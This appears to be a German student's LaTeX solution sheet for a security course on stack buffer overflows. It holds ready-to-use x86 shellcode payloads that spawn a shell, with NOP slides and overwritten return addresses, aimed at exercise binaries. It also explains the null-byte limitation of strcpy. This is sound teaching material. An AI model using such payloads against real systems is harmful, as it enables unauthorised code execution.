 \documentclass[]{scrreprt}
\begin{document}
\section*{Aufgabe 3: Shellcode}
\section*{Aufgabe 4: Stack-Based Buffer Overflow}
\subsection*{a)}
Das Programm ''basic\_overflow'' muss folgendermaßen in der Shell eingegeben werden:
./basic\_overflow \$(python -c 'print "$\backslash$x31$\backslash$xc9$\backslash$xf7$\backslash$xe1$\backslash$x51$\backslash$x68$\backslash$x64$\backslash$x61$\backslash$x73$\backslash$x68$\backslash$x68$\backslash$x2f$\backslash$x2f$\backslash$x2f$\backslash$x2f$\backslash$x68$\backslash$x2f$\backslash$x62$\backslash$x69$\backslash$x6e$\backslash$x89$\backslash$xe3$\backslash$xb0$\backslash$x0b$\backslash$xcd$\backslash$x80" + "$\backslash$x90"*86 + "$\backslash$xcc$\backslash$xce$\backslash$xff$\backslash$xff"')
Dabei ist das \$-Zeichen zu beachten, welches eine Subshell aufruft, womit man in einem Shellbefehl einen weiteren Befehl ausführen kann.
Die Angabe ist hier in Little-Endian. Der erste Teil ist der Shellcode (von $\backslash$x31 bis zum ersten +) danach kommt das NOP-Padding. Nach dem Padding kommt die Return-Adresse, welches das Programm ausgibt.
\section*{Aufgabe 5:  Smashing the Stack for Fun and Exam Prep}
\subsection*{a)}
\begin{figure}[h]
	\centering
	\texttt{[image: figure/5a]} %
	\caption{Stackframes}
\end{figure}
\subsection*{b)}
Der Kommandozeilenparamter könnte wie folgt aussehen:\newline
\begin{lstlisting}[caption={Kommandozeilenparamter ($\hat{=}$ einer Zeile)},captionpos=b]
\x90\x90\x90\x90\x90\x90\x90\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73
\x68\x68 \x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80\x90\x90\x90\x90
\xEF\xBE\xAD\xDE
\end{lstlisting}
Die Instruktionen ''$\backslash$x90'' dienen hierbei als NOP-slide und als zusätzliches Padding um den Buffer zu überschreiben. Am ende muss die Adresse \texttt{0xDEADBEEF} in Little-Endian stehen. Damit wird die return-Adresse überschrieben und der Shellcode wird dadurch aufgerufen.\newline
Wenn die Adresse des password\_buffers \texttt{0xDEAD0070} lautet, dann wäre dies problematisch aufgrund des 0-Byte, da bei der \texttt{strcpy} Funktion dieses Byte als das Ende eines Strings interpretiert wird. Somit wäre es nicht möglich die return-Adresse vollständig zu überschreiben.
\end{document}
